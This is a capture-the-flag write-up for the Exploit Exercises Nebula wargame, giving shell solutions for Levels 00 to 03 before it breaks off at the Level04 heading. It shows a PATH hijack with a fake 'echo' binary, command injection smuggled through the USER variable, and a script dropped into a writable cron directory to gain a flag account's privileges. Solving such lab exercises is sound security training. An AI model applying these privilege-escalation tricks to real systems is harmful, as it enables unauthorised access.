 #Exploit Exercises Nebula
##Level00
```
$ cat /etc/passwd | grep flag00
flag00:x:999:999::/home/flag00:/bin/sh
$ find / -uid 999 2>/dev/null
```
Or

```
$ find / -user flag00 2>/dev/null
```

##Level01

```
$ cd ~;mkdir bin;cd bin;echo '/bin/getflag > /tmp/level01.txt' > echo; chmod +x echo
$export PATH=/home/level01/bin:$PATH
$ /home/flag01/flag01
$ cat /tmp/level01.txt
```

##Level02
```
$ export USER=";/bin/getflag > /tmp/level02.txt;/bin/echo"
$ /home/flag02/flag02
$ cat /tmp/level02.txt
```

##Level03
```
$ cd /home/flag03/
$ echo '/bin/getflag > /tmp/level03.txt' > writable.d/hack; chmod +x writable.d/hack
```
等到hack被删除

```
$ cat /tmp/level03.txt
```

##Level04
